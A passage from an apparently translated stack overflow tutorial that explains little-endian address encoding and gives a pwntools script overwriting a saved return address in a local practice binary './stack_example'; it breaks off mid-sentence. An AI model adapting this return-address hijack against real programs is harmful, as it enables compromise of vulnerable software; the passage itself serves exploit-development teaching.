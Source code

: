 ```

                                           |                 |

                                           |                 |

                              s,ebp-0x14-->+-----------------+

```



However, it should be noted that since in the computer&#39;s memory, each value is stored in bytes. In general, small-end storage is used, that is, the form of 0x0804843B in memory is


```text

\x3b\x84\x04\x08

```



However, we can&#39;t input these characters directly in the terminal. When the terminal inputs, \, x, etc. also count as a single character. . So we need to find a way to enter \x3b as a character. So at this point we need to use a wave of pwntools (about how to install and basic usage, please github), here the code using pwntools is as follows:


```python

##coding=utf8

from pwn import *

## Constructing objects that interact with the program
sh = process('./stack_example')

success_addr = 0x0804843b

## Constructing a payload
payload = 'a' * 0x14 + 'bbbb' + p32(success_addr)

print p32(success_addr)

## Send a string to the program
sh.sendline(payload)

## Convert code interaction to manual interaction
sh.interactive()

```



Execute a wave of code to get

